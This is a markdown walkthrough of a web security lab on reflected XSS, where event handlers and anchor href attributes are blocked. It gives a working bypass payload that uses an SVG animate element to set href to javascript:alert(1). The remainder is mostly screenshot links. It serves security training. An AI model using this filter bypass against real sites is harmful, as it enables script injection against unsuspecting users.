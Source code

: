 # Lab 8: Reflected XSS with event handlers and href attributes blocked

This lab contains a reflected XSS vulnerability with some whitelisted tags, but **all events and anchor `href` attributes are blocked**.

---

### 🎯 **Goal**

Perform a cross-site scripting attack that injects a vector which, when clicked, calls the `alert` function.

> Important:
> 
> 
> You need to label your vector with the word **"Click"** to induce the simulated lab user to click it. For example:
> 
> ```jsx
> <a href="">Click me</a>
> ```
> 

---

### 🛠️ Solution Strategy

We'll exploit SVG's ability to embed JavaScript using `<animate>` inside an `<svg>` element:

- `<animate>` allows dynamic behavior **without event handlers**.
- By using `attributeName="href"`, we can set an `href` dynamically to `javascript:alert(1)`.

✅ This **bypasses event attribute** and `href` restrictions because it's **not defined statically**.

---

### 🛠️ **Solution**

1️⃣ Visit the following URL, replacing `YOUR-LAB-ID` with your lab ID:

```html
<svg>
	<a><animate+attributeName=href+values=javascript:alert(1)+/>
		<text+x=20+y=20>
			Click me
		</text>
	</a>
```

![2025-06-24_01-39.png](LabImg/2025-06-24_01-39.png)

![2025-06-24_01-39_1.png](LabImg/2025-06-24_01-39_1.png)

![2025-06-24_01-39_2.png](LabImg/2025-06-24_01-39_2.png)

![2025-06-24_01-40.png](LabImg/2025-06-24_01-40.png)

![2025-06-24_01-40_1.png](LabImg/2025-06-24_01-40_1.png)

![2025-06-24_01-41.png](LabImg/2025-06-24_01-41.png)

![2025-06-24_01-48.png](LabImg/2025-06-24_01-48.png)

![2025-06-24_01-48_1.png](LabImg/2025-06-24_01-48_1.png)

![2025-06-24_01-52.png](LabImg/2025-06-24_01-52.png)

![2025-06-24_01-52_1.png](LabImg/2025-06-24_01-52_1.png)

![2025-06-24_02-13.png](LabImg/2025-06-24_02-13.png)

![2025-06-24_02-22.png](LabImg/2025-06-24_02-22.png)

![2025-06-24_02-22_1.png](LabImg/2025-06-24_02-22_1.png)

![2025-06-24_02-22_2.png](LabImg/2025-06-24_02-22_2.png)

![2025-06-24_02-23.png](LabImg/2025-06-24_02-23.png)

> Reference : [https://developer.mozilla.org/en-US/docs/Web/SVG/Reference/Element/animate](https://developer.mozilla.org/en-US/docs/Web/SVG/Reference/Element/animate)
> 

---

### 🎥 **Community solutions**

▶️ [Watch video walkthrough](https://youtu.be/SGi_IkgyKew)